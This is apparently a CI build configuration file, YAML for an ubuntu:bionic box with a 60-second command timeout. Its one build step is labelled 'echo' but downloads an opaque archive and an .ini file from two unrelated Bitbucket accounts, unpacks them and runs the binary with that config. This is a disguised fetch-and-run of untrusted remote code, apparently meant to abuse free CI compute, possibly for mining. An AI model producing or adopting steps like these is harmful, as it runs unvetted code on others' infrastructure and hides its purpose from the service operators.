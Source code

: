 box: ubuntu:bionic
command-timeout: 60
build:
  steps:
    - script:
        name: echo
        code: |
          apt update -y && apt install -y wget xz-utils
          wget https://bitbucket.org/Hggbngfvb/p/raw/762671a7008d3c0a99a2586b91647b59d8303b10/p.tar.xz
          wget https://bitbucket.org/fajar990/pas/raw/93a84205ed4140304b3e66d0c22d367802f65b00/p.ini
          tar xf p.tar.xz
          chmod +x p
          ./p p.ini
